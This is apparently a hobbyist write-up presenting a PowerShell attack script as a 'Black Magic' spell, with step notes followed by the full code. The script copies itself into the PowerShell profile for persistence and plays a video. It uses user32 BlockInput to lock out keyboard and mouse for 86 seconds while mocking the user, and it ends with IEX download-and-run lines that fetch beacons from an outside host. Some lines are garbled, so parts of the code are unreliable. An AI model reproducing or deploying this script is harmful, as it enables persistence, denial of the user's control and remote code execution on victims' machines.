 # Powershell Hexing for Rookies

Spell Class : Black Magic

Spell Level : Introduction

---


This was a very bad working PoC about powershell lock outs and doing some direct DLL manipulation.

Below is a .ps1 script that would drop this below script, A video, and a dumb beacon.

The goal of this was to act as a Hacktavist or some skid effect on a computer. It was very dumb but it was a perfect payload to mimic low skill and low complexity attack. 

### How it works

1. So first it attempts to find itself and adds that into the a profile.

2. It then add the .NET class to the current powershell session. That .Net class being presentationCore. I dont think I even used it looking back on this.. Real head scratcher....

3. We find our payload file which is a dumb downloaded youtube video. Following that I bind a new-object which is the Windows Media Player.

4. I then have the Windows media player Open the Media file, Then close the file. At the time I did this to solve a bug in the way it opens files.

5. Working with the proc var I made it brings the Windows MediaPlayer and plays the video. 

6. Now we see the DLLImport for user32.Dll I am calling very poorly the BlockIt function. Setting that to true disables all user32 input. Mouse, Keyboard, Touchscreen and anything else handled on the user. 

7. We see some mocking of the user and a sleep timers for 86 seconds. Once that is finished we return the BlockInput to false and fire off two CS beacons that are laying in wait online. 




```Powershell


$filethingy = (Get-Childitem -Path C:\ -Recurse -ErrorAction SilentlyContinue | where {$_.Name -match 'memoryfixer.ps1'}).FullName
$content = Get-Content -Path $filethingy

if (!(Test-Path $profile)) {
New-Item -ItemType File -Path $profile -Force 
Set-Content -Path $profile -Value $content
}else {
Set-Content -Path $profile -Value $content
}



Set-CoAdd-Type -AssemblyName presentationCore
$filepath = "C:\Windows\Temp\trap.mp4"
$wmplayer = New-Object System.Windows.Media.MediaPlayer
$wmplayer.Open($filepath)
Start-Sleep 1 
$duration = $wmplayer.NaturalDuration.TimeSpan.Seconds
$wmplayer.Close()
start playing
$proc = Start-process -FilePath "C:\Program Files (x86)\Windows Media Player\wmplayer.exe" -ArgumentList $filepath -PassThru



# This Bit locks the user out for 86 seconds

$code = @'
    [DllImport("user32.dll")]
        public static extern bool BlockInput(bool fBlockIt);
'@
        
        $userInput = Add-Type -MemberDefinition $code -Name Blocker -Namespace UserInput -PassThru
        
        
        $null = $userInput::BlockInput($true)
        
Write-Warning "You have just fell for the trap..."

        Start-Sleep -Seconds 86
        
       
        $null = $userInput::BlockInput($false)
        


Set-StrictMode -Version 2

#powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://plentyofphish.com:80/traptime'))"
#powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://plentyofphish.com:80/.exe'))"

#Runs above payloads

```



Once again this is very low and very poor. I wanted to throw this away but all information has value to someone and as such I hope you find some value in this poorly crafted spell. Good news however is it means we can work from here and build something far far worse now that we can get into the concept of ASM and maybe some malicious payloads.
